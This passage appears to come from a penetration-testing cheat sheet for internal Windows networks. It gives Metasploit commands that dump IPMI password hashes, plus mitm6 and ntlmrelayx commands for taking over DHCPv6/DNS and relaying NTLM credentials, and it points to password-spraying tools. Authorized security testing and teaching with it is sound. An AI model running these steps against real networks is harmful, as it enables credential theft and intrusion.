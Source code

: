 If you recover any plaintext passwords, check for password reuse in Active Directory using discovered passwords to password spray with [Talon](https://github.com/Tylous/Talon).

### IPMI

Check for IPMI open port in nmap scan: `grep '623/udp/open' scans/nmap-udp.gnmap`

If found, write them to a file: `grep '623/udp/open' scans/nmap-udp.gnmap > scans/ipmi-hosts.txt`

Exploit:

```
msfconsole
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts file:scans/ipmi-hosts.txt
run
```

## Exploit DHCPv6 using mitm6

[mitm6](https://github.com/dirkjanm/mitm6) is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. It does this by replying to DHCPv6 messages, providing victims with a link-local IPv6 address and setting the attackers host as default DNS server. As DNS server, mitm6 will selectively reply to DNS queries of the attackers choosing and redirect the victims traffic to the attacker machine instead of the legitimate server. For a full explanation of the attack, see our blog about mitm6. Mitm6 is designed to work together with ntlmrelayx from impacket for WPAD spoofing and credential relaying.

Monitor the network for unanswered DHCPv6 broadcasts:

```
sudo tcpdump -i eth1 '(udp port 546 or 547) or icmp6'                                                                                               
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode                                                                               
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes                                                                            
11:40:37.906030 IP6 fe80::215:5dff:fe74:720e.dhcpv6-client > ff02::1:2.dhcpv6-server: dhcp6 solicit                                                     
11:42:37.057888 IP6 fe80::215:5dff:fe74:720e.dhcpv6-client > ff02::1:2.dhcpv6-server: dhcp6 solicit
```

Run mitm6:

```
# mitm6 -d [domain.name]
```

Run ntlmrelayx:

```
# impacket-ntlmrelayx -6 -socks -smb2support
```

You can also watch The Cyber Mentor's [video demonstration](https://www.youtube.com/watch?v=zzbIuslB58c).

## Password Spraying
